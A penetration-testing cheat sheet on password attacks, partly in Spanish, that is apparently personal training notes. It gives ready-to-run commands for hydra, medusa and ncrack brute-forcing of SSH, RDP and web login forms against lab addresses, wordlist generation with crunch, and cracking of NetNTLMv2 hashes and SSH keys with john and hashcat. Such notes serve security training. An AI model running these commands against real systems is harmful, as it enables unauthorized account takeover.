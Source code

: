 # If you get hashes, will be necessary to crack them
john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt 



# Password Attacks


```sh
ncrack -vv --user rax -P wordlist.txt rdp://1.1.1.1

medusa -h 1.1.1.1 -u root -P /usr/share/wordlists/rockyou.txt -e ns -M ssh

hydra -l administrator -P wordlist.txt 1.1.1.1 ssh

hydra 1.1.1.1:80 http-form-post "/PHP/index.php:nickname=^USER^&password=^PASS^:bad password" -l garry -P /usr/share/wordlists/nmap.lst -t 10 -w 30 -o hydra-http-post-attack.txt
```

## Creacion de diccionario
```sh
crunch 6 6 -t Lab%%% > wordlist

cat wordlist
Lab000
Lab001
Lab002
Lab003
Lab004
Lab005
Lab006
Lab007
Lab008
Lab009
```
## SSH 
```sh
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
Aqui hay que tomar en cuenta el valor del $6 para ver cuál hace match en hashcat
```sh
hashcat -h | grep -i "ssh"
ssh2john id_rsa > ssh.hash

hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
```
Es posible que hashcat tire un error, para eso podemos usar john
En caso de que tengamos un custom rule:
```sh
$ cat ssh.rule
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
## RDP
```sh
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```